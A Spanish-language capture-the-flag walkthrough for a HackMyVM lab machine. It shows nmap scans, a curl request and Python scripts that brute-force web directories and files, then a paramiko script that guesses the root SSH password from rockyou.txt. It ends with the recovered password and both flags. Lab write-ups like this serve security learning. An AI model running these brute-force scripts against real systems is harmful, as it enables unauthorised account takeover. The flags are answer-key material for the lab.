 ## Buscamos puertos tcp activos.

>sudo nmap -sS -sV -O -p- 192.168.56.102 -oN >tcp                                                                                                               
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00075s latency).
>Not shown: 65533 closed tcp ports (reset)
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
>80/tcp open  http    nginx
>MAC Address: 08:00:2F (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 4.X|5.X
>OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
>OS details: Linux 4.15 - 5.6
>Network Distance: 1 hop


## Buscamos puertos Udp activos

>sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN >udp                                                                                  
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00067s latency).
>All 100 scanned ports on 192.168.56.102 are in ignored states.
>Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
>MAC Address: 08:00:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

## Usamos Curl...
curl -v http://192.168.56.

> Trying 192.168.56.102:80...
> Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
> Mark bundle as not supporting multiuse
>< HTTP/1.1 200 OK
>< Server: nginx
>< Date: Mon, 05 Dec 2022 20:30:15 GMT
>< Content-Type: text/html
>< Content-Length: 57
>< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
>< Connection: keep-alive
>< ETag: "5f-39"
>< Accept-Ranges: bytes
>< 

>Dont Overthink. Really, Its simple.
>        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

## Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
### Salida:
.
.
.
.
>[-] root: fernanda
>[-] root: westlife
>[-] root: blondie
>[-] root: sasuke
>[-] root: smiley
>[-] root: jackson
>[+] root: simple

##El password es 'simple' para el usuario 'root'

>id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26>(tape),27(video) 
>Flag user:HMV665sXzDS
>Flag root:HMVtyr543FG
